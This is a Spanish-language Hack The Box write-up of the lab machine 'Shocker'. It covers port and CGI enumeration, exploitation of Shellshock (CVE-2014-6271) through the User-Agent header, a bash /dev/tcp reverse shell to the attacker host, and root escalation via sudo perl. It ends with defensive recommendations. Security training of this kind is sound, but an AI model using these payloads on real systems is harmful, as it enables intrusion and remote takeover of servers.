# Shocker — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** mrb3n  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Wfuzz (directorios + extensiones) · Apache `mod_cgi` · **Shellshock (CVE-2014-6271)** · Explotación vía cabecera `User-Agent` · Reverse shell · `sudo` NOPASSWD sobre `perl` · GTFOBins → root

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Shellshock (CVE-2014-6271)](#3-acceso-inicial--shellshock-cve-2014-6271)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=63 time=32.8 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` es revelador: los sistemas Linux inician el TTL en 64, por lo que un valor cercano (63 tras un salto de red) indica que estamos frente a una máquina **Linux**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

> 💡 La combinación **HTTP (80) + SSH movido a un puerto no estándar (2222)** es característica de un administrador que intenta "esconder" el servicio por *security through obscurity*. La aplicación web queda como único vector de acceso viable sin credenciales.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE únicamente sobre ellos.

```bash
nmap -sCV -T5 -n -p80,2222 10.129.X.X -oN Targeted
```



Salida relevante:

```text
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 La huella de servicios es inequívocamente **Ubuntu 16.04** (`OpenSSH 7.2p2` + `Apache 2.4.18`). Sin credenciales, SSH no es atacable directamente; toda la enumeración debe centrarse en el servidor web.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.X.X
```



La página muestra únicamente el título **"Don't Bug Me!"** y una ilustración de un bug siendo aplastado con un martillo. El nombre de la máquina ("Shocker") y la temática ("bug") son pistas muy claras: el reto probablemente gira en torno al **famoso "bug" de Bash conocido como Shellshock**.

---

### Fuzzing de directorios con Wfuzz

Enumeramos rutas ocultas del servidor con `wfuzz`:

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.X.X/FUZZ/
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-c` | Salida coloreada |
| `-t 200` | 200 hilos concurrentes |
| `--hc=404` | Oculta respuestas 404 |
| `-w` | Diccionario |
| `FUZZ` | Marcador de la posición a fuzzear |

Resultado relevante:

```text
000000035:  403   11 L  32 W   296 Ch   "cgi-bin"
```

Aparece un directorio `/cgi-bin/` con código **403 Forbidden**. La presencia de un directorio `cgi-bin` en Apache es la firma clásica de un servidor que **ejecuta scripts CGI** —el vector histórico de Shellshock—.



> 💡 Apache asocia por defecto el alias `/cgi-bin/` con un directorio que ejecuta ficheros como programas CGI. Cualquier script `.sh`, `.pl`, `.cgi` o `.py` colocado ahí se ejecuta en el servidor con el intérprete correspondiente y devuelve su salida como respuesta HTTP. El `403 Forbidden` sobre el directorio es intencional (evita el *listing*), pero **los ficheros individuales sí pueden ser accesibles**.

---

### Fuzzing de scripts CGI

Volvemos a lanzar wfuzz combinando un diccionario **con dos payloads simultáneos** —uno para el nombre de fichero y otro para las extensiones típicas de CGI—:

```bash
wfuzz -c -t 200 --hc=404 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -z list,sh-cgi \
  http://10.129.X.X/cgi-bin/FUZZ.FUZ2Z
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-w` | Payload 1: diccionario para el nombre (FUZZ) |
| `-z list,sh-cgi` | Payload 2: lista literal de extensiones (FUZ2Z) — aquí `sh` y `cgi` |
| `FUZZ.FUZ2Z` | Sustituye ambos marcadores por cada combinación |

Resultado relevante:

```text
000000249:  200   7 L  18 W  118 Ch   "user - sh"
```

Aparece **`user.sh`** con código 200 OK. Accedemos:

```text
http://10.129.X.X/cgi-bin/user.sh
```



Contenido devuelto:

```text
Content-Type: text/plain

Just an uptime test script
 11:18:45 up 6 min, 0 users, load average: 0.38, 0.23, 0.09
```

El script es un shell Bash que ejecuta `uptime` en el servidor y devuelve su salida. Es exactamente el patrón vulnerable a **Shellshock**: un script CGI escrito en Bash, invocado por Apache `mod_cgi`.

---

### Confirmación de Shellshock con Nmap NSE

Antes de escribir el exploit a mano, lanzamos el script NSE `http-shellshock` para confirmar la vulnerabilidad:

```bash
sudo nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.X.X
```



Salida:

```text
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
```

> 💡 **CVE-2014-6271** (bautizada *Shellshock*) es una vulnerabilidad en Bash que permite ejecutar comandos arbitrarios a través de definiciones de funciones "envenenadas" en variables de entorno. La forma canónica del payload es:
>
> `() { :; }; <comando>`
>
> Bash interpreta `() { :; };` como el inicio de una definición de función válida y, en versiones vulnerables, continúa procesando lo que hay a continuación como código a ejecutar durante la importación de la variable. Cualquier proceso que reciba variables de entorno controladas por el atacante y las exporte a un `bash` hijo queda comprometido —Apache `mod_cgi` es el ejemplo prototípico, ya que copia todas las cabeceras HTTP a variables de entorno del script CGI—.

---

## 3. Acceso inicial — Shellshock (CVE-2014-6271)

### Petición base con Burp

Capturamos la petición legítima a `user.sh` con **Burp Repeater**:



```http
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.129.X.X
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
...
```

La cabecera `User-Agent` es la vía más limpia para inyectar el payload: Apache la copia a la variable de entorno `HTTP_USER_AGENT` y esa variable llega intacta al proceso hijo `bash` que interpreta el CGI.

---

### Validación de la RCE con `ping`

Modificamos el `User-Agent` con el payload Shellshock más un `ping` hacia nuestra máquina atacante:

```http
User-Agent: () { :; }; echo; echo; /bin/bash -c "ping -c 1 10.10.X.X"
```



### Desglose del payload

| Fragmento | Función |
|---|---|
| `() { :; };` | Definición de función vacía que dispara el bug de Bash |
| `echo; echo;` | Dos líneas en blanco para separar cabeceras HTTP del cuerpo (evita error 500) |
| `/bin/bash -c "..."` | Ejecuta el comando arbitrario como Bash |
| `ping -c 1 10.10.X.X` | Prueba de vida hacia nuestro atacante |

Antes de enviar, ponemos `tcpdump` a la escucha en nuestra interfaz VPN:

```bash
sudo tcpdump -ni tun0 icmp
```

Al enviar la petición modificada desde Burp, recibimos:



```text
IP 10.129.X.X > 10.10.X.X: ICMP echo request, id 1576, seq 1, length 64
IP 10.10.X.X > 10.129.X.X: ICMP echo reply,   id 1576, seq 1, length 64
```

La RCE está **confirmada**: el servidor ejecuta nuestros comandos como usuario del proceso Apache.

---

## 4. Obtención de shell

### Reverse shell vía Shellshock

Sustituimos el `ping` por una *reverse shell* de Bash:

```http
User-Agent: () { :; }; echo; echo; /bin/bash -c "bash -c '/bin/bash -i >& /dev/tcp/10.10.X.X/443 0>&1'"
```



En la máquina atacante:

```bash
nc -lvnp 443
```

Al enviar la petición, recibimos la conexión:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 59696
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

✅ Shell interactiva como **`shelly`**, la cuenta que ejecuta los scripts CGI de Apache.

> 💡 El *directorio de trabajo* inicial (`/usr/lib/cgi-bin`) confirma el vector: el intérprete Bash se lanzó desde ahí para ejecutar `user.sh`, y la inyección se produjo antes de que el script empezara siquiera a interpretar su primera línea.

---

### Escalada de privilegios — sudo + perl (GTFOBins)

Comprobamos los permisos `sudo` del usuario `shelly`:

```bash
sudo -l
```



Salida:

```text
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:...

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

`shelly` puede ejecutar `perl` **como root sin contraseña**. Cualquier lenguaje interpretado que ofrezca la primitiva `exec` (o equivalente) proporciona un *escape a shell* trivial. **GTFOBins** documenta la técnica:



```bash
sudo perl -e 'exec "/bin/bash"'
```

### Explicación

| Componente | Función |
|---|---|
| `sudo` | Ejecuta con los privilegios definidos en `sudoers` (aquí `root`) |
| `perl -e '...'` | Ejecuta la cadena Perl inline |
| `exec "/bin/bash"` | Reemplaza el proceso Perl por una shell interactiva Bash |

Aplicamos el escape:

```bash
sudo -u root perl -e 'exec "/bin/bash"'
whoami
```



Resultado:

```text
root@Shocker:/home# whoami
root
```

> 💡 ***GTFOBins*** es la referencia obligatoria ante cualquier `sudo -l`: reúne binarios habituales (`vi`, `less`, `awk`, `perl`, `python`, `find`, `nmap`, `env`, etc.) con sus técnicas conocidas de *shell escape*, escritura arbitraria, lectura arbitraria y otros abusos. Muchos administradores creen que "sudo sobre X" es inocuo porque X "solo edita ficheros" o "solo procesa texto" —y no comprueban si X puede lanzar una shell hija—.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `root`, solo queda localizar las flags del sistema.

### Flag de usuario

La flag de usuario reside en el `home` de `shelly`, la cuenta que obtuvimos inicialmente:

```bash
cat /home/shelly/user.txt
```

### Flag de root

La flag de administrador se encuentra en el directorio personal de `root`:

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra cómo un fallo de una década (Shellshock, 2014) combinado con una configuración de `sudo` descuidada compromete un servidor moderno.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Script CGI en Bash servido por Apache `mod_cgi` | `/cgi-bin/user.sh` | Superficie de ataque para Shellshock |
| **CVE-2014-6271 (Shellshock)** | Cabeceras HTTP → variables de entorno → Bash | RCE remota sin autenticación |
| SSH cambiado de puerto (2222) | Configuración de OpenSSH | Falsa sensación de seguridad (*security through obscurity*) |
| `sudo NOPASSWD` sobre `perl` | `/etc/sudoers` para `shelly` | *Shell escape* inmediato a `root` |

---

## Recomendaciones defensivas

- Actualizar Bash a una versión parcheada (>= 4.3.30) para eliminar CVE-2014-6271 y sus derivados (CVE-2014-7169, CVE-2014-6277…).
- Deshabilitar Apache `mod_cgi` cuando no sea imprescindible, o migrar los scripts a lenguajes con intérprete moderno (Python 3 + WSGI, PHP-FPM, etc.).
- Filtrar cabeceras HTTP en un WAF o `mod_security` con reglas OWASP CRS que detecten patrones tipo `() { :; };`.
- Cambiar el puerto de SSH **no** sustituye a un buen *hardening*: usar autenticación por clave pública, `fail2ban`, `PermitRootLogin no` y, si es posible, restringir por firewall.
- Nunca conceder `sudo NOPASSWD` sobre lenguajes interpretados (`perl`, `python`, `ruby`, `php`, `node`, `awk`) ni sobre editores/paginadores (`vi`, `less`, `more`) — consultar siempre **GTFOBins** antes de firmar una entrada en `sudoers`.
- Aplicar el principio de **mínimo privilegio**: el servicio web no necesita `sudo` sobre nada; si un script requiere elevación, mejor un binario específico con permisos acotados y auditoría.
- Monitorizar procesos hijos de Apache (`bash`, `sh`, `perl` inesperados) y peticiones HTTP con patrones de Shellshock en las cabeceras.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
